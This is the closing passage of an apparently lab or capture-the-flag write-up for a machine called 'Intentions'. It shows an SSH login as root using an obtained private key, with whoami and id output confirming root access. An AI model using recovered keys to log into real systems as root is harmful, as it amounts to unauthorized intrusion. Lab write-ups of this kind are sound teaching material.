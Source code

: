 <img src="/assets/img/intentions/Untitled 22.png" alt="Untitled 22.png" style="width:800px;">

All that is left is to connect over SSH as root. GGs!

```
chmod 600 id_rsa
ssh -i id_rsa root@10.129.229.27

root@intentions:~# whoami
root

root@intentions:~# id
uid=0(root) gid=0(root) groups=0(root)
```